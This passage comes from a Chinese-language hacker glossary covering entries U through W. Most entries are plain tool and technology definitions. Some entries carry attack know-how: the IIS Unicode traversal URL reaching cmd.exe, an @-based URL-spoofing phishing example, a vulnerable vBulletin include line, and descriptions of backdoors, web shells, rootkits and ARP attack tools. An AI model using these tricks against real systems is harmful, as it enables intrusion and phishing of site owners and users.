例如对于 `http://www.acc.com/` 来说，它的 webroot 目录如果是 `c:\webroot\`，那么当使用 `http://www.acc.com/scripts/..%c1%1c../winnt/system32/cmd.exe`，也就是实际上被编码后的 `http://www.acc.com/scripts/../../winnt/system32/cmd.exe`。这样就可以直接通过浏览器调用服务器上的 cmd 命令解释器，获得远程执行命令的权限。

虽然有这个漏洞的主机早已绝迹，但作为国人发现的重量级漏洞，我们还是需要了解的。

### UNION（数据库）

UNION 是常用的 SQL 语句之一，在 PHP 注入中起到了十分重要的作用，它的目的是将两个 SQL 语句的结果合并起来。从这个角度来看，UNION 的一个限制是两个 SQL 语句所产生的栏位需要是同样的资料种类。另外，当我们用 UNION 这个指令时，只会看到不同的资料值。

UNION 的语法如下：

```sql
[SQL 语句 1]
UNION
[SQL 语句 2]
```

### Universal Extractor（应用程序）

Universal Extractor，就是“万能提取器”，它几乎可以提取任何种类的档案文件，无论是简单的 Zip 文件，还是一个安装程序，甚至连 Windows Installer（.msi）程序包，它也能轻松自如地提取出其中的文件，而且简单、便捷。

### UNIX（操作系统及其相关）

UNIX 是一个强大的多用户、多任务操作系统，支持多种处理器架构，最早由 Ken Thompson、Dennis Ritchie 和 Douglas McIlroy 于 1969 年在 AT&T 的贝尔实验室开发。经过长期的发展和完善，目前已成长为一种主流的操作系统技术和基于这种技术的产品大家族。

由于 UNIX 具有技术成熟、可靠性高、网络和数据库功能强、伸缩性突出和开放性好等特色，可满足各行各业的实际需要，特别能满足企业重要业务的需要，已经成为主要的工作站平台和重要的企业操作平台。曾经是服务器操作系统的首选，占据最大市场份额，但最近在跟 Windows Server 以及 Linux 的竞争中有所失利。

### UNIX unzip（应用程序）

unzip 是 UNIX 下一款对 .zip 文件格式进行解压的工具。同时此工具存在 setuid 和 setgid 属性漏洞，unzip 在解压的时候没有正确检查文件属性，本地攻击者可以利用这个漏洞构建恶意文件放置到系统上。unzip 在解压的时候仍旧保持原来的文件权限，并没有任何错误提示，因此攻击者可以构建一个恶意 ZIP 文件，诱使用户打开，在系统上建立恶意特权文件。

## 黑客术语图文辞典 → UPX

### UPDATE 特定名称

即更新。

### UPX 加密解密

UPX 是一款先进的可执行程序文件压缩器，压缩过的可执行文件体积缩小 50%－70%，这样减少了磁盘占用空间及网络上传下载的时间。通过 UPX 压缩过的程序和程序库完全没有功能损失，和压缩之前一样可正常地运行。支持的格式包括 atari/tos、djgpp2/coff、dos/com、dos/exe、dos/sys、rtm32/pe、tmt/adam、watcom/le、win32/pe、Linux/i386 等等。

### UPX Shell 加密解密

UPX Shell 是 UPX 的图形界面程序，并且增强了 UPX 的功能，使用更加方便。UPX Shell 3.4.2.2008 简体修改版程序中已内置了 UPX 1.25、UPX 2.03 和 UPX 3.02 压缩引擎，其界面如图 U-5 所示。


图 U-5

### URL 黑客技术基础

URL 即统一资源定位符（以前也称为通用资源定位符），通过它可以访问因特网上指定的文件，因为 URL 是独一无二的。

我们常用的访问网络站点的方法就是在网络浏览器地址栏里输入主页文件的统一资源定位符，且网站内的所有文件都可以用统一资源定位符来标识。这样的文件可以是任何网络（HTML）页面，或是其他主页、图像文件、类通用网关接口应用程序或 Java 小程序等。

统一资源定位符包括了用来访问文件资源的协议名字、标识因特网上某台特定计算机的域名以及路径名，指定计算机中某文件位置的分级描述。

也可以将 URL 简单地理解为浏览器地址栏里输入的网站地址，就像每家每户都有一个门牌地址一样，每个网页也都有一个 Internet 地址。当在浏览器地址框中输入一个 URL 或是单击一个超级链接时，URL 就确定了要浏览的地址。

URL 的组成如下，例如：http://www.baidu.com/china/index.htm，它的含义如下：

- http://：代表超文本传输协议，通知 baidu.com 服务器显示 Web 页，通常不用输入；
- www：代表一个 Web 服务器；
- baidu.com/：这是装有网页的服务器的域名，或站点服务器的名称；
- china/：为该服务器上的子目录，就好像我们的文件夹；
- index.htm：是文件夹中的一个 HTML 文件（网页）。

### URL编码 黑客技术基础

URL 编码是为了解决一些特殊字符（如汉字与空格）在 HTTP 协议中传输而出现的，许多特殊字符在 Internet 上传送是件棘手的事情，但经过 URL 编码特殊处理，可以使所有字符安全地从 Internet 传送。例如，回车的 ASCII 值是 13，在发送表单数据时就被认为是一行数据的结束。

- 服务器端从客户端接收数据有两种基本方法：
  - 数据可以从 HTTP 头传送（Cookies 或作为 FORM 数据发送）
  - 可以包含在 URL 中的查询部分

当数据包含在 URL 中，它必须遵循 URL 语法进行编码。在 Web 服务器端，数据自动解码。看看下面的 URL，哪个数据是作为查询参数？

```
例如：http://WebSite/ResourceName?Data=Data
```

WebSite 是 URL 名称。  
ResourceName 可以是 ASP 或 Servlet 名称。  
Data 是需要发送的数据。

如果 MIME 类型是 `Content-Type: application/x-www-form-urlencoded`，则要求进行编码。字符的 URL 编码是将字符转换到 8 位十六进制并在前面加上“%”前缀。

例如，US-ASCII 字符集中空格是 10 进制的 32 或 16 进制的 20，因此，URL 编码是 `%20`。任何特殊字符（就是那些不是简单的七位 ASCII，如汉字）将以“%”用十六进制编码。

### URLSNARF 应用程序，安全技术

URLSNARF 是 Linux 下的网络监控工具。

### URL软骗 攻击方法与行为

指利用处理过的 URL 使用户访问虚假的网页，这是在钓鱼攻击中经常用到的技术。URL 的标准在 RFC1738 中有规定，其中最普通的形式定义为：

```
<scheme>:<scheme-specific-part>

<scheme> 部分是网络协议名称，<scheme-specific-part> 部分被定义为：

//<user>:<password>@<host>:<port>/<url-path>
```

其中只有 `<host>` 部分是必须的，`@` 字符具有特殊的含义，从而使服务器可以解析完整的字符串。如果用户名和密码包含在 URL 中，`<host>` 部分只是从 `@` 字符后开始。

看看一个典型的例子：`http://www.microsoft.com&item=q209354@www.eviloctal.com`。其中真正的主机是“www.eviloctal.com”，“www.microsoft.com”在这个 URL 中不过是个假的用户名，服务器会忽略它。

### user32（操作系统及其相关）

user32.dll 是 Windows 系统中重要的 **DLL** 文件，它的全名为 Windows User API Client DLL，是 Windows 用户界面相关应用程序接口，包括 Windows 处理、基本用户界面等特性。

### Users组（操作系统及其相关）

Users 组即用户组，Windows 系统中的一个用户组，该组的用户无法修改操作系统的设置、注册表或用户资料，它只能运行经过验证的应用程序或创建本地组。与之相似的组还有 **GUESTS** 组。

### UTF-8（黑客技术基础）

UTF-8 是 **Unicode** 的一种变长字符编码，由 Ken Thompson 于 1992 年创建。简单地说，它就是字符的一种存储和传送格式。

因为每个 Unicode/UCS 字符都以 2 或 4 个 bytes 来存储，所以用 Unicode/UCS 的原始形式来存储是一种极大的浪费，而且也不利于互联网的传输。这样，Unicode/UCS 的压缩形式——UTF-8 出现了。由于 UTF 也适用于编码 UCS，故亦可称为 UCS transformation formats。

UTF-8 是以 8 bits（即 1 Byte）为编码的最基本单位，当然也有基于 16 bits 和 32 bits 的形式，分别称为 UTF-16 和 UTF-32，但目前用得不多，而 UTF-8 则被广泛应用在文件存储和网络传输中。

UTF-8 用 1 到 6 个字节编码 Unicode 字符。如果 Unicode 字符由 2 个字节表示，则编码成 UTF-8 很可能需要 3 个字节，而如果 Unicode 字符由 4 个字节表示，则编码成 UTF-8 可能需要 6 个字节。用 4 个或 6 个字节去编码一个 Unicode 字符可能太多了，但很少会遇到那样的 Unicode 字符。

### U盘（硬件）

U 盘即 USB 盘的简称，而“优盘”只是 U 盘的谐音称呼。U 盘是移动存储设备之一，闪存的一种，因此也叫闪盘，其最大的特点就是：小巧而便于携带、存储容量大、价格便宜。一般的 U 盘容量有 64MB、128MB、256MB、512MB、1GB、2GB、4GB 等。

### V

## Vanquish（黑客工具）

罗马尼亚后门产的 **ROOTKIT** 程序，可隐藏文件与目录、注册表、记录密码。

## VB Script（脚本）

VB Script 是 Visual Basic Script 的简称，有时也被缩写为 VBS。VBScript 是微软开发的一种脚本语言，可以看作是 VB 语言的简化版，与 VBA 的关系也非常密切，它具有原语言容易学习的特性。目前这种语言广泛应用于网页和 ASP 程序制作，同时还可以直接作为一个可执行程序，用于调试简单的 VB 语句，非常方便。

## VB6（程序语言与开发）

Visual Basic 的 6.0 版本。

## VBE（操作系统及其相关）

VBE 即 Visual Basic Editor，Visual Basic 编辑器。

## vBulletin 论坛漏洞利用程序（黑客工具）

vBulletin 是一款开放源代码的 PHP 论坛程序，其存在输入验证漏洞，远程攻击者可能利用此漏洞在服务器上执行任意命令。在 vBulletin 的 ImpEx 模块中，ImpExData.php 没有正确地过滤对 systempath 参数的输入，导致可以包含任意外部或本地的文件。

```
require_once($systempath.'impex/ImpExDatabase.php');
```

具体来说：在 require_once() 函数中使用之前没有设置 $systempath 变量，导致了上述漏洞。

## VC 编译器（程序语言与开发）

即 Visual C++。

## VERYPDF PDF STAMP（应用程序）

一款给 PDF 文档打戳记的小工具，支持文本戳记、图像戳记、线条戳记等，戳记支持做成可直接点击的网页链接。软件本身是独立的，无需预装 Adobe Acrobat，且支持 Acrobat 7.0 的 PDF 1.6 协议。注意，不可对受保护的 PDF 加戳记，另外请注意备份源文件。

## view-source（黑客技术基础）

可以用 view-source 这个技巧来查看网页源代码，以帮助我们判断该网页是否安全。在浏览器地址栏输入 **view-source:[url]http://www.xxxxx.com[/url]** 这样的语句，按回车键后就会出现该网页的源代码。

## Vista（操作系统及其相关）

Windows Vista 是微软 Windows 操作系统的最新版本，于 2005 年 7 月 22 日正式公布了这一名字，之前的操作系统开发代号为 Longhorn。

Windows Vista 的内部版本是 6.0，正式版的 Build 是 6.0.6000。在 2006 年 11 月 8 日，Windows Vista 开发完成并正式进入批量生产。此后的两个月仅向 MSDN 用户、电脑软硬件制造商和企业客户提供。

在 2007 年 1 月 30 日，Windows Vista 正式对普通用户出售，同时也可以从微软的网站下载。Windows Vista 距离上一版本 Windows XP 已有超过五年的时间，这是 Windows 版本历史上间隔时间最久的一次发布。

Windows Vista 包含了上百种新功能，其中较特别的是新版的图形用户界面和称为“Windows Aero”的全新界面风格、加强后的搜索功能、新的多媒体创作工具（例如 Windows DVD Maker），以及重新设计的网络、音频、输出（打印）和显示子系统。

Vista 也使用点对点技术提升计算机系统在家庭网络中的通信能力，让不同计算机或装置之间分享文件与多媒体内容变得更简单。针对开发者而言，Vista 使用 .NET Framework 3.0 版本，比起传统的 Windows API 更能让开发者简单地写出高品质的程序。

## VB（程序语言与开发）

VB 全名为 Visual Basic，源自 BASIC 编程语言，是一种由微软公司开发的包含协助开发环境的事件驱动编程语言。由于其简单与可视化的特性，学习与使用 VB 的人数一直很多。

VB 拥有图形用户界面（GUI）和快速应用程序开发（RAD）系统，可以轻易地使用 DAO、RDO、ADO 连接数据库，或者轻松地创建 ActiveX 控件。程序员可以轻松地使用 VB 提供的组件快速建立一个应用程序。

## VC（程序语言与开发）

VC 是微软 Visual C++ 的简称，目前最高版本是 9.0，不过 6.0 用的是最多的，6.0 以后的又叫 VC.Net。

## VLAN（黑客技术基础）

虚拟局域网（VLAN）是英文 Virtual Local Area Network 的缩写，指网络中的站点不拘泥于所处的物理位置，可以根据需要灵活地加入不同的逻辑子网中的一种网络技术。

基于交换式以太网的虚拟局域网：在交换式以太网中，利用 VLAN 技术，可以将由交换机连接成的物理网络划分成多个逻辑子网。也就是说，一个虚拟局域网中的站点所发送的广播数据包将仅转发至属于同一 VLAN 的站点。在交换式以太网中，各站点可以分别属于不同的虚拟局域网。

构成虚拟局域网的站点不拘泥于所处的物理位置，它们既可以挂接在同一个交换机中，也可以挂接在不同的交换机中。虚拟局域网技术使得网络的拓扑结构变得非常灵活，例如位于不同楼层的用户或者不同部门的用户可以根据需要加入不同的虚拟局域网。

## vIDC（包括服务和客户端两部分）（应用程序）

VIDC 2.0 是一个端口映射工具，主要包含如下功能：

- 1. 代理服务功能，支持 http/socks4/socks5 代理，支持代理验证、UDP 代理和二级代理；
- 2. 本地端口映射，类似 porttunnel 功能，即将本地网络的任何应用服务端口映射到本程序运行的机器上。应用服务客户端可通过映射端口访问应用服务，主要用在将内网服务端口映射到网关上以便其他用户可以访问，当然前提是 VIDC 2.0 必须运行在网关机器上；
- 3. 端口映射 vIDC 功能，本程序包含 vIDC 服务和客户端两部分，既可以作为 vIDC 服务又可作为 vIDC 客户端。

## VML（程序语言与开发）

VML 是 The Vector Markup Language（矢量可标记语言）的缩写。

VML 相当于 IE 里面的画笔，能实现你所想要的图形，而且结合脚本，可以让图形产生动态的效果。VML 是微软 1999 年 9 月附带 IE 5.0 发布的。我认为，VML 其实是 Word 和 HTML 结合的产物。

我们可以将 Word 文档另存为 HTML，其中的文本和图片可以很容易地转换，但如果是手绘的图形，在以往的 IE 里面就无法解释并显示了，如果都转换成图形文件又不太现实。于是微软把 Word 里面的图形控件结合到 IE 里面，使 IE 也具备了绘图功能。

## VMProtect（应用程序）

VMProtect 是新一代的软件保护系统，它可以修改软件产品的源代码，转换部分代码为在虚拟机上运行的字节码（bytecode）。你可以将虚拟机想象成为带有不同于 Intel 8086 处理器系统指令的虚拟处理器。例如，虚拟机没有比较两个操作数的指令，也没有条件跳转和无条件跳转指令等等。这样一来，破解者就需要开发一整套的解析引擎来分析和反编译字节码。以现有的解密理论，破解者想要还原出源代码几乎是不可能的。

软件内置反汇编程序和连接文件的 MAP 以便允许你为保护设断点，快速地查找部分代码，并支持非常众多的编译程序：Delphi、Borland CBuilder、Visual Basic（native）、Virtual Pascal 等。

## Vmtools（操作系统及其相关）

Vmware 虚拟机的组件，在虚拟机上安装了相应的 Vmtools 后会使虚拟机与本机的交互更为方便与紧密。

## Vmware（操作系统及其相关）

VMWare 是一著名的虚拟机软件。利用它可以同时在一个系统中虚拟出多个计算机并同时运行多个系统，这与“多系统启动”的概念不同。多启动系统在一个时刻只能运行一个系统，在系统切换时需要重新启动机器。VMWare 是真正“同时”运行多个操作系统在主系统的平台上，就像标准 Windows 应用程序那样切换。而且每个操作系统都可以进行虚拟的分区、配置而不影响真实硬盘的数据，甚至可以通过虚拟网卡将几台虚拟机连接为一个局域网，极其方便。但安装在 VMWare 的操作系统性能上比直接安装在硬盘上的低不少，因此比较适合学习和测试。

VMware 主要的功能有：

- 1. 不需要分区或重开机就能在同一台 PC 上使用两种以上的操作系统。
- 2. 完全隔离并且保护不同 OS 的操作环境以及所有安装在 OS 上面的应用软件和资料。
- 3. 不同的 OS 之间还能互动操作，包括网络、周边、文件分享以及复制粘贴功能。
- 4. 有复原（Undo）功能。
- 5. 能够设定并且随时修改操作系统的操作环境，如：内存、磁盘空间、周边设备等等。

利用 Vmware 不仅能简单地虚拟出一台独立的计算机，也可以虚拟出一个虚拟的计算机网络，所以我们完全可以通过它来模拟各种网络环境进行入侵实验。

## VMware WorkStation（操作系统及其相关）

WorkStation 即 VMware 中的工作站，另一类可以用做服务器的是 Server。

## VOD（黑客技术基础）

VOD（Video On Demand）即视频点播技术的简称，也称为交互式电视点播系统。视频点播的工作过程为：用户在客户端启动播放请求，这个请求通过网络发出，到达并由服务器的网卡接收，传送给服务器。经过请求验证后，服务器把存储子系统中可访问的节目名准备好，使用户可以浏览到所喜爱的节目单。用户选择节目后，服务器从存储子系统中取出节目内容，并传送到客户端播放。

通常，一个“回放连接”定义为一个“流”，采用先进的“带有控制的流”技术，支持将上百个高质量的多媒体“流”传送到网络客户机。客户端可以在任何时间播放存在服务器视频存储器中的任何多媒体资料，客户端在接收到一小部分数据时，便可以观看所选择的多媒体资料。这种技术改进了“下载”或简单的“流”技术缺陷，能够动态调整系统工作状态，以适应变化的网络流量，保证恒定的播放质量。

## VPN（黑客技术基础）

VPN 的英文全称是“Virtual Private Network”，翻译过来就是“虚拟专用网络”。顾名思义，是虚拟出来的企业内部专线。它可以通过特殊的加密通信协议在连接在 Internet 上的位于不同地方的两个或多个企业内部网之间建立一条专有的通信线路，就好比是架设了一条专线一样，但是它并不需要真正去铺设光缆之类的物理线路。这就好比去电信局申请专线，但是不用支付铺设线路的费用，也不用购买路由器等硬件设备。

VPN 可以帮助远程用户、公司分支机构、商业伙伴及供应商同公司的内部网建立可信的安全连接，并保证数据的安全传输。虚拟专用网可用于不断增长的移动用户的全球因特网接入，以实现安全连接；也可用于实现企业网站之间安全通信的虚拟专用线路等。

例如某企业网络管理员想回家之后能够继续访问企业内网并进行管理，他只需要开一个 VPN 就可以直接连接到企业的内部网络，通过家里的计算机就可以访问内部局域网的主机了。

## VsFTP（操作系统及其相关）

VsFTP 即 Very Security FTP，顾名思义，就是“非常安全的 FTP”服务器。

## VTP模式（黑客技术基础）

VTP 全称为 VLAN Trunking Protocol，它通过网络保持 VLAN 配置统一性。VTP 在系统级管理增加、删除、调整 VLAN，自动地将信息向网络中其他的交换机广播。此外，VTP 减小了那些可能导致安全问题的配置。

当使用多重名字，VLAN 能变成交叉连接。

当它们错误地映射在一个和其他局域网时，VLAN 能变成内部断开。

当交换机是在 VTP Server 或透明模式时，能在交换机配置 VLAN，使用 CLI、控制台菜单、MIB（当使用 SNMP 简单网络管理协议管理工作站时）修改 VLAN 配置。一个配置为 VTP Server 模式的交换机向邻近的交换机广播 VLAN 配置，通过它的 Trunk 从邻近的交换机学习新的 VLAN 配置。


## W32Dasm（程序语言与开发）

W32Dasm 是一个静态反汇编工具，如图 W-1 所示，也是破解常用的工具之一，被比作破解人的屠龙刀。能完美显示中文字串及 VB 程序，内含 16 进制编辑器，破解修改软件更容易，可谓是反汇编极品。


## WAN（黑客技术基础）

目前，按网络的作用范围和计算机之间互联的距离划分，有广域网、局域网和城域网三种类型。WAN（Wide Area Network）是广域网的英文缩写，有时候把这种网络称为远程网，即 RCN（Remote Computer Network），它的作用范围大，一般可以从几十公里至几万公里。一个国家或国际间建立的网络都是广域网。在广域网内，用于通信的传输装置和传输介质可由电信部门提供。

目前，世界上最大的信息网络 Internet 已经覆盖了包括我国在内的 180 多个国家和地区，连接了数万个网络，终端用户已上亿，并且以每月 15% 的速度在增长。

## WAP（黑客技术基础）

WAP 是 Wireless Application Protocol（即无线应用协议）的缩写，这是一个使用户借助无线手持设备（如掌上电脑、手机、呼机、双向广播、智能电话等）获取信息的安全标准。WAP 支持绝大多数无线网络，包括 GSM、CDMA 等。

## WEB INJECTION（攻击方法与行为）

即网站注入、页面注入，可以代指所有基于网站及页面的注入。

## WEBADMIN2Y 程序包（黑客工具）

ASP.Net 下的 C/S 模式后门，如图 W-2 所示。C/S 的好处就是能把很短的一段代码插入正常文件，并以 POST 方式控制，从而不留痕迹。


图 W-2

## WEBDAV（黑客技术基础）

WEBDAV（WEB-based Distributed Authoring and Versioning）即 WEB 分布式创作和版本管理，是一种基于 HTTP 1.1 协议的通信协议。它扩展了 HTTP 1.1，在 GET、POST、HEAD 等几个 HTTP 标准方法以外添加了一些新的方法，使应用程序可直接对 WEB Server 进行读写，并支持写文件锁定（Locking）及解锁（Unlock），还可以支持文件的版本控制。

## WEBmin（操作系统及其相关）

一个基于 WEB 的 Unix 系统管理界面，是目前功能最强大的基于 WEB 的 Unix 系统管理工具。管理员通过浏览器访问 WEBmin 的各种管理功能并完成相应的管理动作。目前 WEBmin 支持绝大多数的 Unix 系统，这些系统除了各种版本的 Linux 以外，还包括：AIX、HPUX、Solaris、Unixware、Irix 和 FreeBSD 等。

WEBmin 能够让用户在远程使用支持 HTTPS（SSL 上的 HTTP）协议的 WEB 浏览器，通过 WEB 界面管理你的主机，这在保证了安全性的前提下提供了简单深入的远程管理。这使得 WEBmin 对系统管理员非常理想，因为所有主流平台都有满足，甚至超出上述需求的 WEB 浏览器。

## WEBShell（黑客技术基础）

WEBShell 从字面上理解就是通过 WEB 进行交互的 Shell。本质上，这种 Shell 是一些有特殊功能的脚本文件，因为在许多动态网页技术中都有对服务器进行操作的对象或组件（例如 ASP 的 FSO）。利用这些可以对服务器进行操作以达到与本地 Shell 同样的效果。

由于 WEBShell 其实就是脚本文件，入侵者在入侵了一个网站后，可以将这些 WEBShell 放置在网站服务器的 WEB 目录中，与正常的网页文件混在一起。然后黑客就可以用 WEB 方式通过 ASP 或 PHP 木马后门控制网站服务器，包括上传下载文件、查看数据库、执行任意程序命令等。

WEBShell 最大的优点就是可以穿越防火墙，由于与被控制的服务器或远程主机交换的数据都是通过 80 端口传递的，因此不会被拦截。而且使用 WEBShell 一般不会在系统日志中留下记录，只会在网站的 WEB 日志中留下一些数据提交记录，没有经验的管理员是很难看出入侵痕迹的。

## WEB标准（特定名称）

WEB 标准不是某一个标准，而是一系列标准的集合。一般来说，网页主要由三部分组成：结构（Structure）、表现（Presentation）和行为（Behavior）。对应的标准也分三方面：结构化标准语言主要包括 XHTML 和 XML；表现标准语言主要包括 CSS；行为标准主要包括对象模型，如 W3C DOM、ECMAScript 等。

这些标准大部分由 W3C 起草和发布，也有一些是其他标准组织制订的标准，比如 ECMA（European Computer Manufacturers Association）的 ECMAScript 标准。

### 一、结构标准语言

- 1. XML 是 The Extensible Markup Language（可扩展标识语言）的简写。目前推荐遵循的是 W3C 于 2000 年 10 月 6 日发布的 XML 1.0，参考 www.w3.org/TR/2000/REC-XML-20001006。和 HTML 一样，XML 同样来源于 SGML，但 XML 是一种能定义其他语言的语言。XML 最初设计的目的是弥补 HTML 的不足，以强大的扩展性满足网络信息发布的需要，后来逐渐用于网络数据的转换和描述。
- 2. XHTML 是 The Extensible HyperText Markup Language（可扩展标识语言）的缩写。目前推荐遵循的是 W3C 于 2000 年 1 月 26 日发布的 XHTML 1.0（参考 http://www.w3.org/TR/xhtml1）。XML 虽然数据转换能力强大，完全可以替代 HTML，但面对成千上万已有的站点，直接采用 XML 还为时过早。因此，我们在 HTML 4.0 的基础上，用 XML 的规则对其进行扩展，得到了 XHTML。简单地说，建立 XHTML 的目的就是实现 HTML 向 XML 的过渡。

## 二、表现标准语言

CSS 是 Cascading Style Sheets（层叠样式表）的缩写。目前推荐遵循的是 W3C 于 1998 年 5 月 12 日发布的 CSS2（参考 http://www.w3.org/TR/CSS2/）。W3C 创建 CSS 标准的目的是以 CSS 取代 HTML 表格式布局、帧和其他表现语言。纯 CSS 布局与结构式 XHTML 相结合，能帮助设计师分离外观与结构，使站点的访问及维护更加容易。

## 三、行为标准

- DOM 是 Document Object Model（文档对象模型）的缩写。根据 W3C DOM 规范（http://www.w3.org/DOM/），DOM 是与浏览器、平台、语言无关的一种标准接口，使得你可以访问页面其他的标准组件。简单地理解，DOM 解决了 Netscape 的 JavaScript 和 Microsoft 的 JScript 之间的冲突，给予 Web 设计师和开发者一个标准的方法，让他们来访问网站中的数据、脚本和表现层对象。
- ECMAScript 是 ECMA（European Computer Manufacturers Association）制定的标准脚本语言。目前推荐遵循的是 ECMAScript 262（http://www.ecma.ch/ecma1/STAND/ECMA-262.HTM）。

## WEB 服务器｜黑客技术基础

WEB 服务器也称为 WWW（World Wide Web）服务器，主要功能是提供网上信息浏览服务。其应用层使用 HTTP 协议，并使用 HTML 文档格式，使用统一资源定位器（URL）进行访问。

## WEB 后门｜黑客技术基础

即 WEBShell。

## WEB 脚本代理｜黑客技术基础

WEB 脚本代理就是在服务器上放一个 ASP 或 PHP 等动态脚本，然后调用这个脚本去访问别的网站，那么被访问网站显示的 IP 就是服务器的 IP。4ngel 的 PhpSpy 后门和 Marcos 的 aspadmin 站长助手这两个 WEBShell 都集成了这个功能。

无论是 PHP 或 ASP 的脚本代理，其实都是调用了 XMLHTTP 这一组件，将远程网站的数据用你所放 WEBShell 的服务器进行一次中转，然后再将内容呈现给你而已。

## WED｜黑客工具

不错的编辑器，允许无限次的 Undo/Redo，而且文件大小无限，拥有拼写检查、Macro 记录等功能，整个软件能用软盘装走。

## Wengo｜应用程序

Wengo 是一款免费的网络电话软件，其选择使用 GPL（通用公共许可证）开发自己的软件，开放代码以保证透明度和用户的安全性。

## wget｜黑客工具

wget 是一个从网络上自动下载文件的自由工具，它支持 HTTP、HTTPS 和 FTP 协议，可以使用 HTTP 代理。

所谓的自动下载是指：wget 可以在用户退出系统之后在后台执行。这意味着你可以登录系统，启动一个 wget 下载任务，然后退出系统，wget 将在后台执行，直到任务完成。相对于其他大部分浏览器在下载大量数据时需要用户一直参与，这省去了极大的麻烦。

wget 非常稳定，它在带宽很窄和不稳定网络中有很强的适应性。如果是由于网络原因下载失败，wget 会不断地尝试，直到整个文件下载完毕。如果是服务器打断下载过程，它会再次连到服务器上，从停止的地方继续下载。这对从那些限定了链接时间的服务器上下载大文件非常有用。

## WHOIS｜黑客技术基础

简单地来说，WHOIS 就是一个用来查询已经被注册域名详细信息的数据库（如域名所有人、域名注册商、域名注册日期和过期日期等）。WHOIS 查询为旁注提供了基础，只要对一个域名进行 WHOIS 查询，就可以知道这个域名所在主机绑定的其他域名。这样如果目标主机无法拿下，就可以通过其他域名进入其他网站进行攻击，因为那些网站与目标主机在同一台机器上，所以一旦攻陷其效果是一样的。

## Win2003｜操作系统及其相关

Windows Server 2003 是目前微软推出的使用最广泛的服务器操作系统。一开始，该产品叫作“Windows .NET Server”，后改成“Windows .NET Server 2003”，最终被改成“Windows Server 2003”，于 2003 年 3 月 28 日发布，并在同年四月底上市。

此版本做了很多改进，特别是：

- 改进 Active Directory（活动目录），如可以从 schema 中删除类。
- 改进 Group Policy（组策略）操作和管理。
- 改进磁盘管理，如可以从 Shadow Copy（卷影复制）中备份文件。

## Win2K｜操作系统及其相关

Microsoft Windows 2000，简称 Win2K，是微软公司 Windows NT 系列的 32 位视窗操作系统，起初称为 Windows NT 5.0。英文版于 1999 年 12 月 19 日上市，中文版于次年二月上市。Windows 2000 是一个可中断的、图形化的及面向商业环境的操作系统，为单一处理器或对称多处理器的 32 位 Intel x86 电脑而设计。它的用户版本在 2001 年 10 月被 Windows XP 所取代；而服务器版本则在 2003 年 4 月被 Windows Server 2003 所取代。一般来说，Windows 2000 被划分为一种混合式核心（hybrid kernel）的操作系统。

## Win32 API｜操作系统及其相关

Win32 API 即 Windows 下的 API，是微软的操作系统 Windows 提供给开发人员的编程接口，它决定了程序员在 Windows 开发应用程序的能力。

## WinArpAttacker｜黑客工具

WinArpAttacker 是一款 ARP 攻击软件，其主要功能如下：

- ARP 机器列表扫描；
- 基于 ARP 的各种攻击方法：定时 IP 冲突、IP 冲突洪水、禁止上网、禁止与其他机器通信、监听与网关和其他机器的通信数据、ARP 代理；
- ARP 攻击检测、主机状态检测、本地 ARP 表变化检测；
- 检测到其他机器的 ARP 监听攻击后可进行防护，自动恢复正确的 ARP 表；
- 把 ARP 数据包保存到文件；
- 可发送手工定制 ARP 包。

## Windows Shell｜渗透技术

Windows Shell 即 Windows 下的 Shell，一般指的是 CMD。

## Windows Defender｜应用程序

Windows Defender 是一款由微软公司出品的免费反间谍软件，它帮助计算机抵御间谍软件和其他有害软件导致的弹出窗口、降低性能和安全威胁。它具有实时保护功能，拥有一个能在检测到间谍软件时建议你采取何种措施的监视系统，可最大程度地减少中断操作的麻烦并且不影响你的正常工作。

## Windows 按钮突破专家｜应用程序

网上有很多使灰色按钮变为可用按钮的工具，这些软件都有相同的用途，但是其对于 .NET 编写的软件则无能为力，但 Windows 按钮突破专家就可以突破 .NET 写的程序按钮。

## Windows 脚本宿主｜操作系统及其相关

Windows 脚本宿主即 Windows Scripting Host（WSH），是一种与语言无关的脚本宿主，是微软脚本技术系列中的一种，程序名是 Wscript.exe，它为 Windows 32 位平台提供简单、功能强大而又灵活的脚本编写功能。在 Windows 下的脚本文件都是用 WSH 进行解析执行的。

简单地讲，WSH 就是提供了一种脚本环境，在这个环境中，预定义了一些对象，同时也可以使用 COM 里的其他对象。它使用一种脚本引擎来对脚本解释执行，比如微软自己支持的 VBScript 和 JScript，第三方也可以开发自己的脚本引擎。

## Windows 优化大师｜应用程序

Windows 优化大师是一款知名的系统优化软件，免费，无须注册，无功能限制、无插件、无病毒。其功能包括：

- 对桌面菜单、网络、开机速度、系统安全等进行优化；
- 提供详细准确的软硬件信息；
- 对注册表、磁盘文件清理及软件智能卸载；
- 驱动智能备份，并提供系统磁盘医生。

## WINEGGDROP｜黑客工具

WINEGGDROP 是一款功能繁多的后门程序，如图 W-3 所示。通过它，可以轻松地“管理”我们的服务器。


## WinHex｜应用程序

WinHex 是一款以通用的 16 进制编辑器为核心，专门用来对付计算机取证、数据恢复、低级数据处理的高级工具。它可以用来检查和修复各种文件，恢复被删除的文件以及硬盘损坏、存储卡损坏造成的数据丢失等。其功能及特性还包括：

- 支持 FAT、NTFS、Ext2/3、ReiserFS、Reiser4、UFS、CDFS、UDF 文件系统；
- 支持对磁盘阵列 RAID 系统和动态磁盘的重组、分析和数据恢复；
- 可分析 RAW 格式原始数据镜像文件中的完整目录结构，支持分段保存的镜像文件；
- 使用模板编辑数据结构（例如：修复分区表/引导扇区）；
- 连接和分割，以奇数字节、偶数字节或字的方式合并、分解文件；
- 分析和比较文件，搜索和替换功能尤其灵活；
- 磁盘克隆（可在 DOS 环境下使用 X-Ways Replica）；
- 驱动器镜像和备份（可选压缩或分割成 650MB 的档案）；
- 256 位 AES 加密、校验和、CRC32、哈希算法（MD5、SHA-1）；
- 数据擦除功能，可彻底清除存储介质中残留数据；
- 可导入剪贴板所有格式数据，包括 ASCII、16 进制数据；
- 可进行 2 进制、16 进制 ASCII、Intel 16 进制和 Motorola S 转换；
- 立即窗口切换、打印、生成随机数字；
- 支持打开大于 4GB 的文件，非常快速，容易使用。

## WinInfo｜黑客工具

- WinInfo 可用来查看账户信息，是集成在 AIO 中的工具。

```bash
用法: Aio.exe -WinInfo <账户>
例子: Aio.exe -WinInfo
例子: Aio.exe -WinInfo Guest
```

- Wininfo.exe 是 W32.Kwbot.C.Worm virus 蠕虫病毒相关程序，该病毒允许攻击者访问你的计算机，窃取密码和个人数据。

## Winlogon｜操作系统及其相关

